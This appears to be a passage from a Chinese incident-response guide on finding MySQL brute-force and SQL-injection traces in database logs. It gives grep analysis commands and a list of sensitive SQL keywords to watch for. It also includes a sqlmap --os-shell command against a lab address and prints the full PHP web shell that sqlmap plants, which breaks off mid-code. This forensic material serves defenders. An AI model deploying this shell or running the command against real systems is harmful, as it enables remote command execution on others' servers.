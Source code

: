命令行登录：

```
190601 22:17:25      111 Connect    root@localhost on 
                 111 Query    select @@version_comment limit 1
190601 22:17:56      111 Quit
```

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：

```
102 Connect    mysql@192.168.204.1 on 
102 Connect    Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
```

利用shell命令进行简单的分析：

```
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql
```

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load_file() 、into outfile、into dumpfile。

敏感数据库表：SELECT *from mysql.user、SELECT* from mysql.func

### 0x03 SQL注入入侵痕迹

在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口

```
sqlmap.py -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080
```

HTTP通讯过程如下：

![img](https://bypass007.github.io/Emergency-Response-Notes/LogAnalysis/image/log-5-3.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。

tmpbwyov.php：

<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$z=@ini_get('disable_functions');if(!empty($z)){$z=preg_replace('/[, ]+/',',',$z);$z=explode(',',$z);$z=array_map('trim',$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "
